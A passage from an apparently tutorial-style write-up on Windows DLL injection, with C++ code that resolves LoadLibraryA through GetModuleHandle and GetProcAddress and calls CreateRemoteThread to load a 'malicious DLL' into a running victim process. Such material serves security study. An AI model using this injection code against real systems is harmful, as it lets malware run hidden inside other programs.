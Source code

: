```cpp
		CloseHandle(hSnapshot);
		return;
	}
```

## LoadLibraryA

We need to set the entry point of our to-be-created thread to **LoadLibraryA** so the first thing it executes is this function.

To do this, we need to get a handle to **Kernel32.dll** through [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea).

Then, using this handle, we can retrieve the address of **LoadLibraryA** through [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).

```cpp
	HMODULE hKernel32 = GetModuleHandle(L"Kernel32.dll");
	if (!hKernel32) {
		printError("GetModuleHandle");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
	FARPROC fpLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
	DWORD dwInjectedProcessID = 0;

	if (!fpLoadLibrary) {
		printError("GetProcAddress");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```

## Action!

The only thing left to do is calling [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

```cpp
	HANDLE hInjectedThread = CreateRemoteThread(hVictimProcess, NULL, 0, (LPTHREAD_START_ROUTINE)fpLoadLibrary, nameBuffer, 0, &dwInjectedProcessID);
	if (!hInjectedThread) {
		printError("CreateRemoteThread");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```

That is all, for demonstration I’m creating a "python3.10.exe" process running an infinite loop, and I will attempt to inject our malicious DLL into this process. Voila!
